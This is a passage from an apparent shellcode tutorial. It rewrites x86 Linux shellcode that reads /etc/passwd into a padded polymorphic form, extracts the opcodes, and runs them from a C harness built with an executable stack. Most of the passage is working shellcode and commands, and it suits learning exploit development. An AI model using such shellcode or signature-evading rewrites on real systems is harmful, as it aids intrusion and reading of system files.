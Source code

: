 ```nasm
	mov al,0x4 
	mov bl,0x1 
	int 0x80
	push eax			; Step 1
	push ebx			; Step 2
	pop eax				; Step 3
	pop ebx				; Step 4, we just replaced a simple xchg opcode with 4 lines of push/pops 
```

As you can see from the comments, we had to add some nonsense since the original code was pretty clean. I **did** find a line that wasn't needed that I deleted, so we did improve efficiency in at least one instance. 

Let's assemble and link our code:
```terminal_session
root@kali:~# nasm -f elf32 read.nasm && ld -m elf_i386 read.o -o read
```

Let's dump the shellcode:
```terminal_session
root@kali:~# objdump -d ./read|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc9\x31\xc0\x31\xd2\xb0\x05\x52\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x50\x53\x51\x58\x59\x5b\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x50\x52\x58\x5a\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x50\x53\x58\x5b\xcd\x80"
```

Let's paste into our shellcode.c
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\x31\xc0\x31\xd2\xb0\x05\x52\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x50\x53\x51\x58\x59\x5b\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x50\x52\x58\x5a\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x50\x53\x58\x5b\xcd\x80";



main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

Finally, let's compile and run it!
```terminal_session
root@kali:~# gcc -fno-stack-protector -z execstack -m32 shellcode.c -o read
shellcode.c:9:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
 main()
 ^~~~
root@kali:~# ./read
Shellcode Length:  61
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
-----snip-----
```
**Size: 61 bytes**